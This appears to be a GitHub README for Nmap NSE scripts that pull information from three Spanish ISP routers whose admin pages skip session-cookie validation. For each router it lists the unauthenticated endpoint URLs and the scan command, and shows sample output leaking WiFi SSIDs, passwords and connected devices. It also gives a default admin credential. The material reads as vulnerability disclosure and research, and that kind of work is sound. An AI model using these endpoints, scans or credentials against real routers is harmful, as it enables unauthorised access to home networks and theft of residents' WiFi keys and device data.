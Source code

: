 # What is it?
Some NSE scripts to search information from routers.

#Huawei HG253s v2
Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [VicenDominguez](https://www.github.com/vicendominguez/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IPhtml_253s/api/ntwk/WlanBasic
* http://IP/html_253s/api/system/diagnose_internet
* http://IP/html_253s/api/system/hostinfo?type=ethhost
* http://IP/html_253s/api/system/hostinfo?type=guesthost
* http://IP/html_253s/api/system/hostinfo?type=homehost
* http://IP/html_253s/api/system/hostinfo?type=wifihost
* http://IP/html_253s/api/system/wizardcfg

##Usage
```
nmap --script=http-enum-vodafone-hua253s.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-vodafone-hua253s: 
|   SSID: vodafone070 (14:b9:XX:XX:XX:XX) Password: (AES) 123456
|   Device: android-246e67b281179679-Wireless MAC: 48:5A:3F:XX:XX:XX IP: 192.168.0.XX

```
#Comtrend VG 8050
Telefonica-Spain is starting to rent a new Comtrend VG 8050 router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IP/getWifiInfo.jx
* http://IP/listDevices.jx
* http://IP/infoApplications.jx

##Usage
```
nmap --script=http-enum-telefonica-comtrend-vg-8050.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-comtrend-vg-8050: 
|   SSID: MOVISTAR_XXX
|   Cipher Algorithm: WPA
|   Password WEP: 
|   Password WPA: gTU3NkXE44RYjuM2RrxM
|   Password WPA2: 
|   Device: 192.168.0.X MAC: 5c:97:X:X:X:X IP: 192.168.0.X

```
#ADB P.DGA4001N a.k.a HomeStation
Telefonica-Spain is starting to rent a new ADB P.DGA4001N router to the spanish costumers. This new router is coming with a new firmware version.
This bug has been found by [DaniLabs](https://www.github.com/danilabs/)

##Vulnerability
Basically, it is not validating the session cookie in some administration webpages.
So, It is possible to get direct information from those urls in any router open to internet.

* http://IP/getWifiInfo.jx
* http://IP/listDevices.jx
* http://IP/infoApplications.jx

Add the credentials by default are admin / 1234
##Usage
```
nmap --script=http-enum-telefonica-homestation.nse -p80,443 -sS x.x.x.x

Nmap scan report for x.x.x.x (x.x.x.x)
Host is up (0.34s latency).
PORT    STATE SERVICE
80/tcp  open  http
| http-enum-telefonica-homestation: 
|   SSID: WLAN_HOME
|   Cipher Algorithm: WEP
|   Device: IphonePedro MAC: A8:8E:24:X:X:X IP: 192.168.1.X

```
